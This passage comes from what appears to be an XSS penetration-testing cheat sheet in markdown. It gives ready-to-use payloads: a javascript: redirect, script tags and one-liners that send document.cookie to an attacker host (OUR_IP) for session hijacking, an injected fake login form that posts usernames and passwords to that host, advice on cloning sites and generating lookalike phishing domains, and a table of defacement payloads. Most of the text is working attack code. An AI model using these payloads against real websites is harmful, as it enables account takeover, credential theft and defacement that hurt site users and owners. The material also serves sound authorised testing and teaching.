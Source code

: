 Instead of using the standard http or https protocols followed by your attacker website, you might insert a `javascript` payload as the `value` of the `redirect_url` parameter.\
For example, you could navigate to the following URL to pop an alert:\
`vulnerable.com/test.php?redirect_url=javascript:alert(document.domain)`

***

### **XSS Session Hijacking**

* Use the following XSS Payload: `<script src=http://OUR_IP/script.js></script>`
* On the attacker machine, write one of the following payload inside a file named `script.js`:
  1. `new Image().src='http://OUR_IP/index.php?c='+document.cookie`
  2. `document.location='http://OUR_IP/index.php?c='+document.cookie;`

***

### **XSS Phishing**

You can use wget or other tools such as [goclone](https://github.com/imthaghost/goclone) to clone a website's content.

After that, you can use tools such as `urlcrazy` to generate domain names similar to the one you are trying to target via the commandline, e.g. you can just use `urlcrazy www.example.com` to generate all the useful, similar domain names for phishing attempts

Another form of XSS phishing can be obtained by leveraging stored XSS vulnerabilities to inject a fake login form that sends the credentials to our attacker server

```
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

***

### **XSS Defacing**

> * Defacing means changing the website's appearance for anyone who visits the website
> * The website's appearance can be changed using injected Javascript code
> * Note: This requires a stored XSS Vulnerability

| Defacing Payload                                                                    | Description                                  |
| ----------------------------------------------------------------------------------- | -------------------------------------------- |
| `<script>document.body.style.background = "#141d2b"</script>`                       | Change website background color              |
| `<script>document.body.background = "https://example.com/images/logo.svg"</script>` | Change website background image              |
| `<script>document.title = 'New Title'</script>`                                     | Change website title                         |
| `document.getElementById("todo").innerHTML = "New Text"`                            | Change HTML element/DOM text using innerHTML |

## Miscellaneous

### XSS via HTML base tag injection
